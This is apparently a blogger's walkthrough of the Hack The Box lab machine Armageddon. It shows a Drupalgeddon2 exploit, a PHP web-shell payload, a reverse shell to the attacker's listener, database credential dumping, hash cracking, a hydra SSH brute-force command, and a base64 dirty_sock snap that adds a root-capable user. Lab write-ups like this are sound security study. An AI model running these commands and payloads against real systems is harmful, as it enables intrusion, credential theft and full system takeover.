



# Armageddon: 10.10.10.233

## Hints

- This is a little harder than most easy machines, or maybe this is the new easy?
- Initial foothold is all about getting a low priv shell from a kind of tricky Drupal vulnerability
- Getting a better shell is about enumerating the files served by the webserver, and/or by password guessing creds
- Privesc to root is fun, and a less know service - GTFO for a quick win or use the logic in the known exploits manually

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp    open     ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp    open     http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```

## 80: Recon

Something



Looks like a Drupal site. And the `nmap` scan showed us it running Drupal 7.

```none
|_http-generator: Drupal 7 (http://drupal.org)
```


Running a `gobuster` in the background

Cannot create an account
No luck with guessing default credentials
Robots txt has some entries

http://10.10.10.233/robots.txt

I found `http://10.10.10.233/CHANGELOG.txt` with an interesting last entry.

```none
Drupal 7.56, 2017-06-21
```

## Drupal Exploits?

From here, not much else to look for apart from to search for some exploits.

```none
searchsploit drupal
```

So far we have the name of the machine (Armageddon) and the Drupal version. From here we can start to piece together what the foothold is about, and what exploits might work. _Drupalgeddon_ seems like a logical fit. Some interesting `searchsploit` results for this were:

```none
└─$ searchsploit Drupalgeddon
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)                 | php/webapps/34992.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)                  | php/webapps/44355.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)       | php/webapps/34984.py
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)       | php/webapps/34993.php
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)          | php/webapps/35150.php
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)          | php/webapps/44557.rb
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)       | php/webapps/44542.txt
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Executi | php/webapps/44449.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Metas | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC)  | php/webapps/44448.py
---------------------------------------------------------------------------------- ---------------------------------
```

Since we are targeting version 7.56 and have no admin panel access, we can rule out many of these exploits. It seems the "Drupalgeddon2" exploits fit our machine. Luckily for us, there is a Metasploit module, and a Python exploit. I try to avoid Metasploit due to OSCP requirements, so went with the Python exploit. 

I mirrored `php/webapps/44448.py`, and then tidied up the script while trying to get it to work. No luck! The exploit works by targeting the user registration function. I ran the requests through Burp and noticed the request was completely different from the normal user registration request I got when attempting to sign up.

Intercepted request from the Python script:


Intercepted request from an actual registration attempt on Armageddon:


Notice how the request URL is different, and the actual registration uses a multipart form. At this point, I tried out the Metasploit module to see if it worked...

```none
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.10.10.233
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LOST 10.10.14.10
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > exploit
[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.233:33788) at 2021-07-26 10:39:08 +1200

meterpreter >
```

It worked! This is a good check to do before trying to fix the Python exploit, so we don't waste any more time. With this knowledge, I had a look at the Metasploit module for information about how it worked. I also searched on Google for `CVE-2018-7600 exploit` - trying to find a better Python script. I found another exploit that looked like it had the correct user registration query.

```none
wget https://github.com/FireFart/CVE-2018-7600/raw/master/poc.py 
```

The original [`poc.py` script](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py) was a little messy, and it was difficult to figure out how it worked. The default payload worked, and the script ran without error. The output was from the `id` command - showing we have remote code execution.

I tried modifying the code execution portion of the script to get a reverse shell but was getting nowhere. Instead, I pieced together information from all the exploits I was trying to see how each worked. The best solution I found was to `echo` a payload into a local file that I could access. My final payload was a variation of my go-to PHP payload.

```python
payload = f"echo '<?php system($_REQUEST[\"cmd\"]) ?>' | tee sites/default/files/meow.php "
```

This will create a new file in the webroot under `sites/default/files`, called `meow.php`. The contents of the file will take a request parameter and execute it. Nifty! The image below shows the uploaded file.



And... code execution!



From here, intercepted the request with Burp, sent it to repeater, changed it to a POST request, and started trying a bunch of shells... Many shells! After exhausting my list, I took a break and thought about it.

- The Meterpreter shell worked
- None of my reverse shells worked
- Try another port!

As soon as I changed from port `9001` to a different port, in this case, `4444`... I got a shell!

```none
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.233] 33790
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

## Privesc: `apache` to `brucetherealadmin`

After all the effort to find and fix an exploit - I was rewarded with a very low privilege shell. I couldn't even run `curl` to download linpeas. Very sad! What's even worse, I cannot get a decent PTY.

```none
bash-4.2$ which python
which python
/usr/bin/python
bash-4.2$ python -c 'import pty;pty.spawn("/bin/bash")'    
python -c 'import pty;pty.spawn("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
  File "/usr/lib64/python2.7/pty.py", line 165, in spawn
    pid, master_fd = fork()
  File "/usr/lib64/python2.7/pty.py", line 107, in fork
    master_fd, slave_fd = openpty()
  File "/usr/lib64/python2.7/pty.py", line 29, in openpty
    master_fd, slave_name = _open_terminal()
  File "/usr/lib64/python2.7/pty.py", line 70, in _open_terminal
    raise os.error, 'out of pty devices'
OSError: out of pty devices
```

Anyway, I started to poke around the system looking for more information. I quickly found the `brucetherealadmin` user in `/etc/passwd` and the `/home` directory. Then I found the database creds in the `settings.php` file for the Drupal install.

```none
array (
    'database' => 'drupal',
    'username' => 'drupaluser',
    'password' => 'CQHEy@9M*m23gBVj',
    'host' => 'localhost',
    'port' => '',
    'driver' => 'mysql',
    'prefix' => '',
),
```

Did some `grep` searches for some other things that linpeas would usually find. No luck. And kept getting `grep: memory exhausted` errors. So I switched to the MySQL database. I crashed a couple of shells trying to log into MySQL, then realized I needed a proper PTY to run an interactive program. I then remembered that you can use the `-e` flag on the CLI to run SQL commands.

```none
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'show tables'
```

After figuring out the tables, dumped some user data.

```none
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'select * from users'
```

And the results...

```none
bash-4.2$ mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'select * from users'
<er --password='CQHEy@9M*m23gBVj' -D drupal -e 'select * from users'         
uid     name    pass    mail    theme   signature       signature_format        created access  login   status  timezone    language        picture init    data
0                                               NULL    0       0       0       0       NULL            0          NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu        filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu a:1:{s:7:"overlay";i:1;}
3       tom     $S$D07EoRQ/uoeXz/TE1IiaePPPKqlTI1JdOwFMExojlherH7YY.rCA tom@tom.com                     filtered_html       1627268260      0       0       0       Europe/London           0       tom@tom.com     NULL
```

And a more tidy version...

```none
mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -D drupal -e 'select name,pass from users'

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
tom     $S$D07EoRQ/uoeXz/TE1IiaePPPKqlTI1JdOwFMExojlherH7YY.rCA
```

One key piece of information is a password hash for `brucetherealadmin`. The other user (`tom`) is the one I created when poking around on the website. I did some Google searches to find out how to crack Drupal passwords and found a very simple `john` example with no specified format as an argument.

```none
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt bruce_hash                 
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:01 DONE (2021-07-26 14:41) 0.9803g/s 227.4p/s 227.4c/s 227.4C/s courtney..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

On a side note, I later worked out the `hashcat` command to do the same thing, so thought I should document it.

```none
hashcat -m 7900 --remove bruce_hash /usr/share/wordlists/rockyou.txt
```

Logged in via SSH using the new password, and finally a decent shell!

```none
└─$ ssh brucetherealadmin@10.10.10.233
brucetherealadmin@10.10.10.233's password: 
Last failed login: Mon Jul 26 00:27:56 BST 2021 from 10.10.14.10 on ssh:notty
There were 268 failed login attempts since the last successful login.
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ pwd
/home/brucetherealadmin
[brucetherealadmin@armageddon ~]$ wc -c user.txt 
33 user.txt
```

On a side note, instead of the host system enumeration I did, an SSH password guessing attack against the SSH service was another alternative. I didn't think of this at the time and only dawned on me after reading a couple of other writeups. Would have been a good thing to run in the background while enumerating. Example command for future reference.

```none
hydra -l brucetherealadmin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.233
```

## Privesc: `bruncetherealadmin` to `root`

Immediately ran linpeas with the new user to have some enumeration going on in the background. Ran some manual enumeration while waiting, and immediately notice the `sudo` configuration.

```none
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
    HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

When linpeas was done, also ran the linux-exploit-suggester. Nothing much came from this, as the most probable exploits were not possible (or more difficult) without compiling tools on the system. Back to checking the `snap` binary gives us the version information:

```none
[brucetherealadmin@armageddon ~]$ snap --version
snap    2.47.1-1.el7
snapd   2.47.1-1.el7
series  16
centos  7
kernel  3.10.0-1160.6.1.el7.x86_64
```

And then looked up matching exploits using `sploitsearch`.

```none
└─$ searchsploit snapd
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (1)               | linux/local/46361.py
snapd < 2.37 (Ubuntu) - 'dirty_sock' Local Privilege Escalation (2)               | linux/local/46362.py
---------------------------------------------------------------------------------- ---------------------------------
```

I was immediately put off, as the version on the target system was much higher than the version specified in the exploit. Did some more research, and digging to find information. There is a great article by [0xdf about Playing with Dirty Sock](https://0xdf.gitlab.io/2019/02/13/playing-with-dirty-sock.html). And here is the official [dirty_sock: Linux Privilege Escalation (via snapd)](https://github.com/initstring/dirty_sock/).

I went ahead and downloaded the `dirty_sockv2.py` script, and tried to execute it. I kept getting a 401 Unauthorized error. Since this box has been a little "locked down" at some points, I thought that the use of the snap API might be limited. Not going to lie - at this point needed some help, so I looked at a few writeups for some guidance. The one tip I took was to try the steps in the script manually.

Started by creating my snap package based on the payload in the exploit script. This is a nice one-liner that I used.

```none
python -c 'print("""
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw"""
+ "A" * 4256 + "==")' | base64 -d > newnewnew.snap
```

This code will create a new snap file. The basic premise is that it will create a new user named `dirty_sock` with the password `dirty_sock` which will have elevated privileges. Here is the `strings` of the package.

```none
└─$ strings newnewnew.snap              
hsqs
#!/bin/bash
useradd dirty_sock -m -p '$6$sWZcW1t25pfUdBuX$jWjEZQF2zFSfyGy9LbvG3vFzzHRjXfBYK0SOGfMD1sLyaS97AwnJUs7gDCY.fg19Ns3JwRdDhOcEmDpBVlF9m.' -s /bin/bash
usermod -aG sudo dirty_sock
echo "dirty_sock    ALL=(ALL:ALL) ALL" >> /etc/sudoers
name: dirty-sock
version: '0.1'
summary: Empty snap, used for exploit
description: 'See https://github.com/initstring/dirty_sock
architectures:
- amd64
confinement: devmode
grade: devel
7zXZ
7zXZ
        $l5
```

From here, we can transfer the snap package to the target system and execute it with `sudo`.

```none
sudo /usr/bin/snap install --devmode newnewnew.snap
```

Then we need to switch to the `dirty_sock` user

```none
[brucetherealadmin@armageddon shm]$ su - dirty_sock
Password: 
Last failed login: Mon Jul 26 04:50:05 BST 2021 on pts/0
There was 1 failed login attempt since the last successful login.
[dirty_sock@armageddon ~]$ id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

And, lastly, get `root` access...

```none
[dirty_sock@armageddon ~]$ sudo -i

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock: 
[root@armageddon ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[root@armageddon ~]# wc -c /root/root.txt
33 /root/root.txt
```

## Lessons Learned

- Always have some automated task enumerating in the background, in this case, a password guess against the SSH service
- Manual exploitation saves time in the long run - read the exploit before running and try to figure out what it is doing. This is a real balance of how much for each occasion!
- The new easy in Hack The Box seems like an old (2017/2018) medium!

## Useful Resources

- [HaqckTheBox - Armageddon by ippsec](https://www.youtube.com/watch?v=8ikdbyOQsLg)
- [Playing with Dirty Sock by 0xdf](https://0xdf.gitlab.io/2019/02/13/playing-with-dirty-sock.html)
- [HackTheBox : Armageddon Walkthrough](https://htbctfwalkthrough.blogspot.com/2021/04/hackthebox-armageddon-walkthrough.html)
